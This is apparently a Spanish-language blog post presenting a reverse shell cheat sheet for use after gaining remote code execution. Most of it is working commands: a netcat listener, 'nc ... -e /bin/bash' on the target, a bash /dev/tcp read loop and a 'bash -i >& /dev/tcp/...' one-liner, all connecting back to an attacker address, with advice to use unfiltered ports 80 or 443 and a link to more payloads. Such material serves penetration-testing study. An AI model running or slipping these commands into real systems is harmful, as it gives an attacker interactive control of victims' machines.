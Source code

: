 ```yaml
---
layout: post
title:  Reverse shells
excerpt: Reverse shell cheat sheet
bigimg: '/img/reverse-shell.png'
tags: [shell, netcat, security]
---
```

Situación: encontrado un método de RCE pero sin posibilidad de acceso a la shell. Solución: _bind_ de la shell a un puerto TCP.

## netcat

Esto ya lo vimos hace tiempo en este [articulo]. Lo que ocurre es que:

* nc/netcat no siempre estará disponible
* si lo está, es posible que no tenga la opción `-e`

En ese caso, puedo ponerme a escuchar (en un puerto accesible al sistema de destino):

```shell
nc -l 8080
```

Y en destino:

```shell
nc 192.168.56.1 8080 -e /bin/bash
```
Ya podemos ejecutar comandos en el sistema remoto cómodamente sentados frente a nuestra máquina:

```shell
user@mihost:~$ nc -l 8080
hostname
vmjessie
```

La máquina objeto de la ejecución de la shell inicia una conexión hacia el puerto de escucha (8080 en el ejemplo). Por eso es necesario elegir un puerto accesible, no filtrado; una elección segura serían los puertos 80 o 443.

## bash

En este caso no vamos a usar `nc` en el equipo objetivo, sino un descriptor asociado a un socket donde vamos a enviar las salidas de la shell. Partimos de nuestro equipo (en el ejemplo, nuestra IP es 192.168.56.1), donde estamos escuchando (con `nc` o lo que sea, da igual) en un puerto accesible:

```shell
nc -vvv -l 8080
```

Y en el objetivo:

```shell
exec 5<>/dev/tcp/192.168.56.1/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```

Con esto, los comandos que tecleemos en nuestra máquina son ejecutados en la remota y la salida nos llega a nosotros:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
hostname
target
```

Mediante esta otra sintaxis:

```shell
user@target:~$ bash -i >& /dev/tcp/192.168.56.1/8080 0>&1
```

tenemos igualmente la consola en nuestra máquina, prompt incluido:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
user@target:~$ hostname
hostname
target
```

Si hay alguna razón para ejecutar la shell vía algún lenguaje de scripting (PHP, Perl, Python, Java, Ruby... ¡¡Gawk!!) [aquí] hay un montón de pruebas de concepto para entretenerse un rato.

[articulo]:/2015-06-08-netcat-primer
[aquí]:https://highon.coffee/blog/reverse-shell-cheat-sheet/
